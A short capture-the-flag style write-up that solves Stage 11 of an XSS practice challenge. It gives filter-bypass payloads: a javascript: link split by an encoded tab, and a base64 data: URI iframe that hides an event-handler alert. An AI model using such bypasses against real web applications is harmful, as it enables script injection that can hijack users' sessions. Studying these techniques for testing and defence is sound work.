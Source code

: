 # **XSS Challenges Stage 11**

In hints, let's see...
```
"s/script/xscript/ig;" and "s/on\[a-z\]+=/onxxx=/ig;" and "s/style=/stxxx=/ig;"
```

This time's replacement is not for less but for more.

So, we need to find something will not execute and will ignored by HTML element.

![](https://i.imgur.com/1FMBwRh.png)

[This post](https://xsses.rocks/sample-page/) may be helpful.

```
"><a href="javascr&#09;ipt:alert(document.domain)">
```

![](https://i.imgur.com/1NQSWGg.png)

Press those leaving characters `">` to execute the herf.

![](https://i.imgur.com/KQiC3OS.png)

**※Here I got a interesting solution of this question.**

To bypass this kind's WAF, we can use the HTML data which is encode but can be executed.

The method to make this happen is [“fake” the src attribute of an iframe](https://stackoverflow.com/questions/3462758/is-it-possible-to-fake-the-src-attribute-of-an-iframe/3462800#3462800).

Yup, the payload's format should be like:

```
<iframe src="data:text/html;base64, .... base64 encoded HTML data ....">
```

Let's simply encode the main paylaod:

```
<a onmouseover="alert(document.domain)">123
```

into base64 encoded.

Then finish the fianl payload:

```
"><iframe src="data:text/html;base64,PGEgb25tb3VzZW92ZXI9ImFsZXJ0KGRvY3VtZW50LmRvbWFpbikiPjEyMw=="></iframe>
```

With this payload, you still can execute javascipt in the page's iframe but parent page, so you can't `alert(document.domain)` of parent page, cuz to browser will block this lind of XXS.

![](https://i.imgur.com/Xds3KKO.png)
